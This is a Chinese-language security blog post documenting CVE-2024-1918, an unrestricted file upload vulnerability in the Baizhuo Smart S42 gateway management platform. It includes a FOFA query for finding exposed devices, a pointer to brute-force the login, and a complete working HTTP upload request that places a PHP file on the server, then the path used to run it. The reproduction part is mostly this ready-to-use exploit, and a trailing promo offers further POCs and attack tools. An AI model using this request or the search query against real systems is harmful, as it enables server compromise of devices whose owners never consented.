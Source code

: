 #  CVE-2024-1918   
原创 fgz  AI与网安   2024-02-29 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
北京百绰智能S42管理平台userattestation.php无限制上传  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
北京百招智能S42管理平台在20240219之前的版本  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
北京百卓网络技术有限公司（以下简称百卓网络）是一家致力于构建下一代安全互联网的高新技术企业。  
  
百卓网络Smart S42网关智能管理平台  
/useratte/userattestation.php接口处  
存在文件上传漏洞。  
攻击者可利用漏洞获取服务器权限，操作服务器文件。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="Smart管理平台"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMoVuOic0Q3j2eKPIRoWFvAAhVh3DmKiaFibUzw2KAG8436NAkBCYKl9Y0ZldLYz5eolt5CibaRC8rZzQ/640?wx_fmt=png&from=appmsg "")  
  
  
注意：直接用浏览器访问很可能打不开，可以在虚拟机中用浏览器访问。  
  
  
05  
  
—  
  
漏洞分析  
  
  
代码中进入hidwel分支，且代码125、126行的上传文件没有进行任何后缀限制，造成任意文件上传。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMoVuOic0Q3j2eKPIRoWFvAAnBG0UcRib8RXGiaBGO6AR7Ym3XU7Y6EEOJfOv8acDyq67r65iaK4H9UlQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
06  
  
—  
  
漏洞复现  
  
  
首先登录系统  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMoVuOic0Q3j2eKPIRoWFvAANg1Epia2OwwOLtwgd1IvxGwoI6MlQYXVg4pmAmn785KluseNJmUhHxg/640?wx_fmt=png&from=appmsg "")  
  
密码自行爆破  
  
  
文件上传数据包如下  
```
POST /useratte/userattestation.php HTTP/1.1
Host: 192.168.40.130:8443
Cookie: PHPSESSID=2174712c6aeda51c4fb6e6c5e6aaac50
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 592
Origin: https://192.168.40.130:8443
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMoVuOic0Q3j2eKPIRoWFvAAcRCFkty4Ht3w8PKfgjYNM9XabgTKWmib9k70QXHeT33SBcAoibUVFqsw/640?wx_fmt=png&from=appmsg "")  
  
  
访问回显文件  
/boot/web/upload/weblogo/1.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMoVuOic0Q3j2eKPIRoWFvAAQsIcN0yBP26ibj1LXe285NHW8GZvQmTIxQupq4cYBehicsx40obkWlJA/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现完成  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
